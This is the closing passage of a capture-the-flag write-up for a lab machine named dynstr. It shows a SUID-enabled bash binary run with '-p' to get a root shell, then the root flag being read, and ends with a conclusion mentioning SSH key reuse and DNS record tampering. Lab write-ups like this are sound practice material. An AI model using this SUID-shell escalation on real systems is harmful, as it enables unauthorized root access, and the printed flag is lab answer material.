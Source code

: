 Let's execute this binary with SUID permission activated.

```
bindmgr@dynstr:/etc/bind/named.bindmgr$ ./bash -p
bash-5.0# whoami
root
bash-5.0# 
```

Machine rooted. Let's see the root flag.

```console
bash-5.0# cd /root
bash-5.0# ls -l
total 8
drwxr-xr-x 4 root root 4096 Mar 14  2021 cleanup
-r-------- 1 root root   33 Oct 17 07:10 root.txt
bash-5.0# cat root.txt
9a3a7fa9675fb4b5a2196768a042e842
bash-5.0# 
```

### Conclusion

This machine gets really deep in DNS aspects, I really liked it. Also, the intrusion was not just copying the private key to login via SSH, also was needed to modify DNS pointer records to login succesfully. I liked also the privilege escalation stage as well in order to practice bash scripting and get new methods to exploit commands.
